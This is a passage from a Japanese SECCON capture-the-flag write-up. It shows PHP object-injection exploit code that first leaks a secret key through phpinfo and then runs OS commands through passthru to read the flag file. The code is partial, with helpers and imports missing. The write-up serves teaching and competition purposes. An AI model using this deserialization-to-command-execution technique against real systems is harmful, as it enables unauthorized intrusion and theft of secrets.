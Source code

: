 ```python

CODE = '''
<?php
class Vuln {
  private $func;
  private $args;
  public function __construct($func, $args) {
    $this->func = $func;
    $this->args = $args;
  }
}

echo serialize(new Vuln('name', ['arg1', 'arg2']));
'''

if __name__ == '__main__':
  if len(sys.argv) < 2:
    URL = 'http://xands.seccon/2/2.php'
  else:
    URL = sys.argv[1]
  print check(URL, get_output(CODE))
```

関数名を `phpinfo` にすると、以下のように `APP_SECRET_KEY` を得ることができました。

```
Apache Environment
Variable	Value

APP_SECRET_KEY	thisissecretkey
HTTP_HOST	xands.seccon
HTTP_CONNECTION	keep-alive
HTTP_ACCEPT_ENCODING	gzip, deflate
HTTP_ACCEPT	*/*
HTTP_USER_AGENT	python-requests/2.11.1
...
```

これで引数に好きなものを与えられるようになりました。以下のように `passthru` で OS コマンドを実行できるようにし、`FLAG(2of2)/` 下にあるファイルを `cat` するとフラグが得られました。

```php
echo serialize(new Vuln('passthru', [
  openssl_encrypt('cat /var/www/html/2/FLAG*/*', 'aes-256-ecb', 'thisissecretkey')
]));
```

```
SECCON{OWASP Top 10 2017 : A4 and A8}
```

### [Binary 100] BadUSB

> (与えられた BadUSB の画像)  
> http://1ot.jp/seccon/badusb.txt
